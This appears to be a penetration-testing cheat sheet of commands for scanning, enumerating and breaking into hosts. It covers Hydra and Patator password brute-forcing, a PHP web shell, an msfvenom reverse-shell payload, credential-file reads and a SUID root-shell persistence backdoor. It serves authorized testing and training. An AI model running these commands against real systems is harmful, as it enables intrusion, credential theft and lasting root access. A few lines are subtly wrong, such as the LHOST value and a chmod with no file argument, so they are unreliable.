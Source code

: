 # Penetration Testing Cheatsheet

## Reconnaissance
### Ports
```bash
sudo nmap $TARGET -sS -sU -oN scans/$TARGET-nmap-initial
sudo nmap $TARGET -sS -sU -p- -oN scans/$TARGET-nmap-complete
```

## Enumeration
### Service Versions
```bash
sudo nmap $TARGET -sV -sC $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions
```

### Operating System
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os
```

#### FTP
```bash
cd loot
touch README.too # create a file
ftp $TARGET 21 # login using anonymous:anonymous
put README.too # upload file created above (i.e. check if we have write privileges)
ls
binary 
get file.txt # download a file (i.e. check if we have read privileges)
mget * # download everything
exit
```

#### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

#### SMTP
```bash
sudo nmap $TARGET -p25 --script smtp-commands -oN scans/$NAME-nmap-scripts-smtp-commands
```

```bash
sudo nmap $TARGET -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} -oN scans/$NAME-nmap-scripts-smtp-enum-users
```

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $TARGET
```

Automated enumeration of exploitable SMTP vulnerabilities.
```bash
sudo nmap $TARGET -p25 --script smtp-vuln* -oN scans/mailman-nmap-scripts-smtp-vuln
# replace the lines above with the actual scan results
```

### HTTP
```bash
sudo nmap $TARGET -p80 --script http-shellshock -oN scans/$NAME-nmap-scripts-http-shellshock-80
```

```bash
dirb http://$TARGET:80 /usr/share/wordlists/dirb/big.txt -z10 -o scans/$NAME-dirb-big-80
```

```bash
dirsearch -u $TARGET:$PORT -o $FULLPATH/$NAME-dirsearch-80
```

```bash
nikto -h $TARGET -p $PORT -T 2 -Format txt -o scans/$NAME-nikto-misconfig-80
```

### RPC
```bash
rpcclient -U '' $TARGET
srvinfo
netshareenum
```

### NetBIOS
```bash
nbtscan $TARGET
```

### SMB
The following SMB shares were discovered using Smbclient.
```bash
smbclient -L $TARGET
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET
```

Download files.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *
```

```bash
# check if vulnerable to EternalBlue
sudo nmap $TARGET -p445 --script smb-vuln-ms17-010 -oN scans/$NAME-nmap-scripts-smb-vuln-ms17-010
```

The target is NOT vulnerable to SambaCry.
```bash
# check if vulnerable to SambaCry
sudo nmap $TARGET -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-scripts-smb-vuln-cve-2017-7494
```

### SQL
```bash
mysql -u $USER -h $TARGET
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-scripts-rdp-ntlm-info
```

```bash
rdesktop -u administrator $TARGET
```

### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

## Gaining Access
### Password Guessing  
#### Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

#### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

#### Hashcat
```hash
# modes - SHA256: 1400
# attacks - Dictionary: 0
hashcat -m $MODE -a $ATTACK /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
```

### Remote File Inclusion
```bash
# find a way to upload a PHP command shell
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```

## Maintaining Access

### Privilege Escalation
#### Linux
```bash
whoami
uname -a
dpkg -l # debian
rpm -qa # red hat
cat /etc/passwd
find / -perm -u=s -type f 2> /dev/null
cat /etc/crontab
ps aux | grep -v "\[" | grep root
```

#### Windows
```bash
whoami
whoami /priv
net user
systeminfo
dir c:\
wmic service get name,startname
cd "c:\program files"
cd "c:\program files (x86)"
wmic service get name,pathname,startname | findstr "Program Files"
cacls *.exe
```

### Persistence
#### Rootbash
Credit: Tib3rius
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
# root must own the new binary so use chown if necessary
cp /bin/bash /tmp/bash
chown root /tmp/bash
chmod u+s /tmp/bash
chmod o+x
/tmp/bash -p
```

```bash
# same technique as above, but as a one-liner
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```

```bash
# if you want to try the technique above albeit locally on a box you already own
sudo cp /bin/bash /tmp/bash; sudo chmod +s /tmp/bash
/tmp/bash -p
```